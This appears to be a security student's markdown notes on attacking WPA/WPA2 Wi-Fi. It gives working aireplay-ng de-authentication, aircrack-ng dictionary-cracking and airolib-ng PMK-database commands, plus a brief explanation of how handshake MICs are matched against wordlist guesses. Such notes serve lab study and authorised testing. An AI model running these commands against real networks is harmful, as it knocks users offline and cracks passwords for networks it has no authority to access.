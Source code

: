 # WPA/WPA2 Attacks

Start airmon-ng and airodump-ng and output it to &lt;airodump-output.cap&gt; 

### 1. De-authentication attack

Using de-auth attack knocks off the client from the wifi and when it attempts to be reconnected a 4-way handshake will be captured. This can be used by aircrack-ng to find the password by dictionary attack

```bash
aireplay-ng -0 1 -a <AP-mac-addr> -c <Victim-mac-addr> mon0
```

When client reconnects, you will see the top right of airodump-ng screen indicates that handshake is now captured.

If you use wireshark to check the contents of packets &lt;output.cap&gt;. Filter the contents of the cap file by using "EAPOL" and observe that the 4-way handshake is captured.

```text
wireshark <output.cap>
```

### 2. Aircrack-ng to discover WPA password

```bash
aircrack-ng -0 -w <wordlist> <airodump-output.cap>
```



## Airolib-ng - creating PMK database for faster cracking

```bash
# add my ESSD into a text fiole
echo WIFU > essid.txt

# create database of PMK
airolib-ng my_password_db --import essid essid.txt 

# shows 0 passwords
airolib-ng my_password_db --stats

# import password list to database
airolib-ng my_password_db --import passwd /usr/share/wordlists/myWordl.txt

# batch calculate PMK 
airolib-ng my_password_db --batch
```

## Info: How WPA passwords are "cracked"?

There are 2 things needed to crack WPA password. \(1\) handshake \(2\) wordlist

In short, the Handshake is made up of the Password + the following "ingredients": 

* **SP Address**
* **STA Address**
* **AP Nonce**
* **STA Nonce**
* **EAPOL**
* **Payload**

Which generates a **MIC \(Message integrity code**\). Now this value changes if the "ingredients" including the Password value changes. 

To crack the Password, the attack is basically taking each word form the wordlists we provide and cook it with the "ingredients" to see if the MIC matches the one with the rightful password.







